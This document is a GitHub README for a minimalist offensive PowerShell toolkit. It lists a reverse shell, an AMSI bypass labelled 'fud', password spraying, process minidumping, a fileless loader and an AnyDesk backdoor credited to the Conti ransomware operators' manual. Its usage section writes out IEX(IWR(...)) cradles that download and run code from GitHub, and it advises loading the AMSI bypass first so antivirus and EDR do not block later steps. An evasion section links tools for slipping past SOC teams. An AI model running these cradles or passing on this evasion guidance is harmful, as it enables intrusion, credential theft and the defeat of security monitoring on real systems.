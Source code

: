 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive security scripts (ie skidware). The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)


# Disclaimer


All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage

All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!

# opsec/evasion

If you want to pull a sneaky on Blue Team/Soc, you should give a look at the following:

paper:

https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/

tools:

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/tokyoneon/Chimera

http://www.powertheshell.com/

https://github.com/klezVirus/inceptor

Of course, for most of the tasks, you don't need to use powershell and you can use signed ms binaries:

https://lolbas-project.github.io/

Also there's a few ways to run powershell without powershell.exe:

https://www.ired.team/offensive-security/code-execution/powershell-without-powershell




# roadmap

Add extra doc on usage/make usage common between scripts

Add a privesc script that will go wmic qfe

Add an eventlogkiller (maybe)




# credits

All credits go to their respective owners:

revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation

FilelessDotNetLoader.ps1: S3cur3Th1sSh1t

https://github.com/S3cur3Th1sSh1t/Invoke-Sharpcradle

(You should probably give a look at his github, this mans's a powershell beast)


anydesk-backdoor.ps1: Conti Operators Manual (credit is credit)

